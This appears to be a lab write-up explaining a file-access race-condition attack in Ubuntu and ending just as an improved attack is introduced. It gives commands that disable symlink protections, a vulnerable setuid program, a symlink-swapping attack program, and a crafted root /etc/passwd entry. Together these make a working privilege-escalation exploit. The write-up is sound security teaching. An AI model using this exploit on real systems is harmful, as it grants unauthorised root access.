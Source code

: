 # Lab 1 - Race Condition

A race condition occurs when multiple processes access and manipulate the same data concurrently, and the outcome of the execution depends on the particular order in which the access takes place.

## Turning Off Countermeasures

To turn off race condition protections, in order to guarantee that the attack will be possible. In Ubuntu 20.04:

```bash
$ sudo sysctl -w fs.protected_symlinks=0
$ sudo sysctl fs.protected_regular=0
```

## Writing a vulnerable program

Vulp.c program:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {        // A
        fp = fopen(fn, "a+");       // B
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}
```

Internally, the verification in `A` will be in terms of the **Real UID** (current user ID), and `B` using the **Effective UID** (temporary ID, ). The goal of this attack is to gain root privileges by exploring the race vulnerability. If we change the meaning of the `tmp/XYZ` file between this two instructions (due to non-atomic operations), using for instance UNIX symbolic link (symblink), we could access the `etc/passwd` file content and write stuff.

To compile/run this vulnerable program:

```bash
$ gcc vulp.c -o vulp
$ sudo chown root vulp
$ sudo chmod 4755 vulp
```

## Choosing Our Target

We want to append one more line in `etc/passwd` file:

```note
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

- "test" will be our new username;
- "U6aMy0wojraho" guarantees that we don't need to fill the password field;
- "0" id, as the third argument, implicitly guarantees root privileges on this new user;

With this line, we can gain access to the machine using a root user.

## The Real Attack

race.c, the attack program:

```c
#include <unistd.h>
int main() {
	while(1) {
		unlink("/tmp/XYZ");
		symlink("/etc/passwd","/tmp/XYZ");
	}
	return 0;
}
```

To run and monitoring the attack, we'll use this bash script:

```bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]          # Check if /etc/passwd is modified
do
    echo "your input" | ./vulp      # Run the vulnerable program
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

We can run both programs in parallel in order to catch the expected result. 

## Improved Attack Method

In the previous task most of our attempts didn't work because our attack program, running with no root privilege could not make changes to the root owned /tmp/XYZ file.

Using unlink() and symlink() approach gave us a race condition in our attack program which was exploited by the target program.

We can solve this issue by making unlink() and symlink() atomic.

According to the lab guide now our attack program should look like this: